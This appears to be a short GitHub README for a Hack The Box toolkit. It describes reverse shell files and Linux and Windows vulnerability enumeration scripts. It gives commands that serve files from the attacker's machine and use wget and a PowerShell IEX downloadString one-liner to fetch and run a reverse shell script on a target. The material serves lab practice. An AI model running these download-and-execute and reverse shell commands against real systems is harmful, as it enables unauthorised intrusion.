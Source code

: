 # Hackthebox tools
**shell.php and shell.ps1** : Use for reverse shell when uploaded to vuln machine

**les.sh and LinEnum.sh** : Use for detect vuln in Linux machine

**Sherlock.ps1** : Use for detect vuln in Windows machine

### How to upload files to vuln linux machine
In your machine type : 
> python -m SimpleHTTPServer

In vuln machine type : 
> wget (your ip address):8000/(file to upload)

Example : 
> wget 10.10.14.62:8000/les.sh

### How to execute powershell script to vuln windows machine
In your machine type : 
> python -m SimpleHTTPServer

In vuln machine type : 
```
if in powershell
IEX(New-Object Net.WebClient).downloadString('http://<ip address>:8000/<file>')
or if in cmd
powershell IEX(New-Object Net.WebClient).downloadString('http://<ip address>:8000/<file>')
```
  
Example : 
> powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.12.81:8000/shell.ps1')
